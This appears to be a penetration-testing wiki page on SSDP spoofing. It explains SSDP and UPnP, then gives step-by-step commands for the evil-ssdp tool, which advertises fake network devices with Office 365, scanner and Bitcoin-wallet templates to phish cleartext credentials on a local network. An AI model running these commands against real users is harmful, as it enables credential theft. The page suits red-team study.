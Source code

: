 # ⭕ SSDP Spoofing

## <mark style="color:red;">SSDP</mark>

SSDP or Simple Service Discovery Protocol is a network protocol designed for advertisement and discovery of network services. It can work without any DHCP or DNS Configuration. It was designed to be used in residential or small office environments. It uses UDP as the underlying transport protocol on port 1900. It uses the HTTP method NOTIFY to announce the establishment or withdrawal of services to a multicast group. It is the basis of the discovery protocol UPnP.

## <mark style="color:red;">UPnP</mark>

UPnP or Universal Plug and Play is a set of networking protocols that allows networked devices, such as personal computers, printers, Internet gateways, Wi-Fi access points, and mobile devices to discover each other’s availability on the network and establish network services for communications, data sharing, and entertainment. The UPnP architecture supports zero-configuration networking. A UPnP compatible device from any vendor can dynamically join a network, obtain an IP address, announce its name, advertise or convey its capabilities upon request, and learn about the presence and capabilities of other devices.

## <mark style="color:red;">Evil SSDP</mark>

{% embed url="https://github.com/initstring/evil-ssdp" %}

A tool for setting up a fake SSDP device and phishing the user for clear text credentials:

{% hint style="warning" %}
The attacker has to be in the same network as the target systems.
{% endhint %}

```
git clone https://github.com/initstring/evil-ssdp.git
cd evil-ssdp/ls
python3 evil-ssdp.py --help
```

to run the attack :&#x20;

```
python3 evil-ssdp.py -i eth0
```

{% hint style="info" %}
#### The default template is office 365 login console, you can change the template with -t \[template name]
{% endhint %}

&#x20;to setup a fake scanner for phishing, use the scanner template:

```
python3 evil-ssdp.py eth0 --template scanner
```

if the user clicks on the scanner icon in windows explorer > networks, the default browser will open up a web page and ask for credentials in order to connect to the device:

![](<../../.gitbook/assets/image (205).png>)

if the user enters the credentials, EvilSSDP will grab and show them

![](<../../.gitbook/assets/image (118).png>)

## <mark style="color:red;">Other templates</mark>

### <mark style="color:orange;">Office 365</mark>

```
python3 evil_ssdp.py eth0 -t office365
```

![](<../../.gitbook/assets/image (2).png>)

### <mark style="color:orange;">Bitcoin Wallet</mark>

```
python3 evil_ssdp.py eth0 -t bitcoin -b
```

![](<../../.gitbook/assets/image (38).png>)

check the repository for other available templates or use your own template and xml description file.

